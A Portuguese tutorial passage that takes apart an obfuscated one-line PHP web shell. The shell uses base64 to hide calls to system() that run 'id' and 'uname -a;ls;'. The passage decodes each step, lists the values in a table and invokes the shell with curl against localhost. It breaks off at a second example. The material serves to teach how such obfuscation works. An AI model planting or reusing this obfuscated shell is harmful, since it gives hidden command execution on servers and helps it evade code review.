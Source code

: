 
## Vamos para os exemplos

#### EXEMPLO 01

**Debugar o código:**

Code:
```php
(error_reporting(0).($__=@base64_decode("c3lzdGVt"))
.$__(base64_decode("aWQ=")).define("_","dW5hbWUgLWE7bHM7").$__(base64_decode(_)).exit);
```

1. Desativa erros e decodifica string
- `(error_reporting(0))` e `@`: Desativa a exibição de erros PHP.
- `($__=@base64_decode("c3lzdGVt"))`: Decodifica a string base64 "c3lzdGVt" para "system".

2. Executa comando system
- `.$__(base64_decode("aWQ="))`: Decodifica a string base64 "aWQ=" para "id". Executa o comando "system" com o argumento "id". 

3. Define constante e executa comando
- `define("_","dW5hbWUgLWE7bHM7")`: Define uma constante `_` com o valor "dW5hbWUgLWE7bHM7" (base64 para "uname -a;ls;").
- `$__(base64_decode(_))`: Decodifica a constante `_` e executa o comando resultante.

Comando resultante:
- `system('id'); system('uname -a;ls;');`

Functions:
- ERROR_REPORTING <https://secure.php.net/manual/pt_BR/function.error-reporting.php>
- BASE64_DECODE <https://php.net/manual/pt_BR/function.base64-decode.php>
- DEFINE <https://php.net/manual/pt_BR/function.define.php>
- SYSTEM <https://php.net/manual/pt_BR/function.system.php>
- EXIT <https://php.net/manual/pt_BR/function.exit.php>
- ERROR CONTROL @ <https://www.php.net/manual/pt_BR/language.operators.errorcontrol.php>

Esquema usando `base64` para oculta valores: 

| BASE64           | VALUE          |
| ---------------- | -------------- |
| c3lzdGVt         | `system`       |
| dW5hbWUgLWE7bHM7 | `uname -a;ls;` |
| aWQ              | `id`           |

Execução: 
```bash
curl -v 'http://localhost/shell.php'
```

---

#### EXEMPLO 02
